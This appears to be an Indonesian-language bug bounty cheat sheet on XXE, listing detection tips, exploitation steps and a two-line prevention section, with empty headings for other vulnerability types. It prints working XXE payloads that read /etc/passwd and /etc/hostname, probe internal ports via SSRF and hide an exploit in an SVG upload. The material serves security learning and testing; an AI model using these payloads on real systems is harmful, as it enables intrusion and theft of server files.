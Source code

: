 # VULNERABILITY :beetle:

<p align="center"><img src="https://user-images.githubusercontent.com/52058660/89898222-85c0a500-dc0a-11ea-9eca-815238a55a38.jpg" width="500"></p>

Online resource:
- [bugbounty-cheatsheet](https://github.com/EdOverflow/bugbounty-cheatsheet) - by EdOverflow
---

## XXE
Sebelum memahami XXE, maka kita harus memiliki pengetahuan dasar XML, DTD dan entity. Tools yang digunakan adalah Burpsuite, lebih mantap lagi jika menggunakan Burp Collaborator (*berbayar*).
- **Detection**
  - [Cari](https://christian-schneider.net/GenericXxeDetection.html) aplikasi yang mengirimkan data dalam format XML (XML endpoint)
  - Cari web page yang request header `Content-Type`-nya adalah `text/xml` atau `application/xml`
  - Cari web service yang mengunakan XML seperti RSS, SOAP
  - Cara cepat menemukan XML endpoint adalah automasi
  
- **Exploitation**
  - Retrieve Files. Inject [payload](https://github.com/payloadbox/xxe-injection-payload-list) ke bagian `!DOCTYPE`
    > `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>`
  - Exploiting to perform Server Side Request Forgery (SSRF). Sama seperti cara di atas tapi protokol yang digunakan adalah `http` dilanjutkan dengan ip server target
    > `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “http://1”> ]>`
  - Gunakan `XInclude` jika tidak bisa memodifikasi `!DOCTYPE`. Harap baca SOAP dan XML namespace untuk pemahaman lebih lanjut. 
    > `<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
  - Test local machine port (gunakan burp intruder). Brute port dari ip local, lalu cek bergantian `http` dan `https`
    > `<!DOCTYPE xxe SYSTEM "http://127.0.0.1:§port§/">`
    > `<!DOCTYPE xxe SYSTEM "https://127.0.0.1:§port§/">`
  - Exploiting [RSS validator](https://taind.wordpress.com/2017/12/25/root-me-xml-external-entity/). jika tidak punya server sendiri untuk upload file XML, gunakan [filebin](https://filebin.net/)
  - Exploiting via file upload. Caranya adalah dengan membuat file SVG yang mengandung exploit xxe
    > `<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>`
  - Modifikasi `content-type` pada POST request header.  Ketika respons adalah `200 OK` dan menghasilkan nilai yang sama, maka kita bisa menyelipkan payload pada requesnya
    >`POST /action HTTP/1.0`<br/>
    >`Content-Type: application/x-www-form-urlencoded`<br/>
    >`Content-Length: 7`<br/>
    >`foo=bar`<br/>
dimodif<br/>
    >`POST /action HTTP/1.0`<br/>
    >`Content-Type: text/xml`<br/>
    >`Content-Length: 52`<br/>
    >`<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>`<br/>
    
- **Prevention**
```
Disable DTD
Disable entity saja
```
- **Online Resource**
  - 
---
## Subdomain Takeover

---
## SQL Injection

---
## XSS

